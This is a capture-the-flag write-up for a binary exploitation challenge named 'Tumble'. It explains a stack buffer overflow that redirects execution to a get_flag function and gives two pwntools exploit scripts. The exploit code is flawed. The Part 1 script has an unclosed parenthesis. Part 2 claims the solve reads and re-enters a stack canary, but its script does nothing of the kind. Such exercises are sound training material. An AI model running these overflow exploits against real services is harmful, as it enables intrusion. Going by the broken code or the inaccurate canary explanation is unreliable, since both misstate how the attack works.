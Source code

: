 ### PWN
# Tumble
#### 012292024
----

## Part 1

We are explicitly given the stack, and are told our input can be at most 8 characters. Inputting anything more than that overflows things, and we can see what changes. To find the address of the read flag function, we can run `readelf <executable name> -a | grep flag`, which returns:

`1. 23: 00000000004011d6 56 FUNC GLOBAL DEFAULT 15 get_flag`

This gives us the memory address we need to overflow on top of the next instruction. We can either do some math to figure out how much garbage to precede this input with, or just send the target address repeatedly until it works. This script does the latter, printing the flag:

```python
#!/usr/bin/env python3
# To run locally, just run this python program
# To run on remote, pass the string `REMOTE` as an argument

from pwn import *

BIN_PATH = "./PATH_OF_BINARY_HERE"
HOST = "REMOTE_HOST_HERE"
PORT = PORT_NUMBER_HERE


p = process(BIN_PATH) if not args.REMOTE else remote(HOST, PORT)

payload = (8 * p64(0x004011d6) # spam bc math is for nerds
p.sendline(payload)

p.interactive()
```

## Part 2

Part 2 of this challenge is similar to part 1, but includes a unique and random stack canary. Stack canaries are a sort of signature that must continue to exist after a function executes before it executes the next set of instructions. In order to correctly overflow input again to access the flag, we need to read and re-input the canary. This can be done with this script (the official solve script):

```python
from pwn import *

context.log_level = "error"
context.binary = "./return"

io = remote("localhost", 1325)

payload = b"a"*8  # buffer
payload += b"a"*8  # saved base pointer
payload += p64(context.binary.symbols["get_flag"])  # get flag address (return addr overwrite)

io.sendlineafter(b"Input: ", payload)
io.recvuntil(b"Flag:\n")
print("flag:", io.recvlineS(False))
```
